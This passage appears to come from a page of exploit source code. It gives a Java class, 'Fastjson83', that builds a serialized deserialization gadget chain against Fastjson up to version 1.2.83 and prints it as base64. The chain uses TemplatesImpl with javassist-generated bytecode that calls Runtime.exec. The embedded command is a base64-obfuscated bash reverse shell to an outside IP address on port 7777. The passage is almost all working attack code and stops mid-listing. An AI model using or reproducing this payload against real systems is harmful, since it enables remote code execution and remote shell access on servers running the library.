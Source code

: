 ### 3.Fastjson<=1.2.83

```java
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Fastjson83 {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{


        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjIxMC4xMjYuMTkxLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}")});
        setValue(templates, "_name", "aaa");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates,bd);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));

//        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
```